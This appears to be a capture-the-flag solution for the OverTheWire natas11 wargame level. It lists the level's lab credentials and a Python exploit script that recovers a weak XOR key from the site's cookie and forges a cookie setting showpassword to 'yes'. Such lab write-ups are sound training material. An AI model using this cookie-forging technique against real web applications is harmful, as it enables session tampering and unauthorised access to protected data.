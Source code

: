 ### natas11

```
natas11
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

Exploit:

```
import os, sys
import httplib
import urllib
import base64
import json
import re
import binascii
import string

# xor two strings of different lengths
def strxor(a, b):     
    if len(a) > len(b):
        return "".join([chr(ord(x) ^ ord(y)) for (x, y) in zip(a[:len(b)], b)])
    else:
        return "".join([chr(ord(x) ^ ord(y)) for (x, y) in zip(a, b[:len(a)])])

user = "natas11"
passwd = "U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK"

authToken = urllib.quote(base64.b64encode(user + ":" + passwd))

headers = {
    "Authorization": "Basic " + authToken,
}

## find key
inputString = '{"showpassword":"no","bgcolor":"#ffffff"}'

conn = httplib.HTTPConnection("127.0.0.1", 8080)
conn.request("GET", "http://natas11.natas.labs.overthewire.org", "", headers)
r = conn.getresponse()

cookie = r.getheader("Set-Cookie").split("=")[1]
cookie_raw = base64.b64decode(urllib.unquote(cookie))

# key has 4 chars
key = strxor(cookie_raw, inputString)[0:4]

## construct new request
inputString2 = '{"showpassword":"yes","bgcolor":"#ffffff"}'

# calculate key stream longer than len(inputString2)
tKey = key * 11

# prepare new cookie
cookie_raw2 = strxor(inputString2, tKey[0:-2])
cookie2 = urllib.quote(base64.b64encode(cookie_raw2))
headers["Cookie"] = "data=" + cookie2

conn.request("GET", "http://natas11.natas.labs.overthewire.org", "", headers)
r = conn.getresponse()
print r.read()

conn.close()
```